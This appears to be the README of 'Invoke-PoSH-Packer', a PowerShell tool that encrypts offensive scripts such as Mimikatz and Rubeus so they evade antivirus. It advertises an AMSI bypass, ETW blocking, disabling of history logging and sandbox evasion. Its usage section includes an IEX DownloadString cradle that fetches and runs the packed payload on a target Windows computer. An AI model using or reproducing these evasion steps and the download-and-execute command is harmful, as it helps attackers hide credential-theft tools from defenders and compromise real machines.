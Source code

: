 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

> FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
> USAGE
  - Step 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
--- or ---
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
--- or ---
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
  - Step 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script
--- or ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

> LICENSE
  - GNU General Public License v3.0
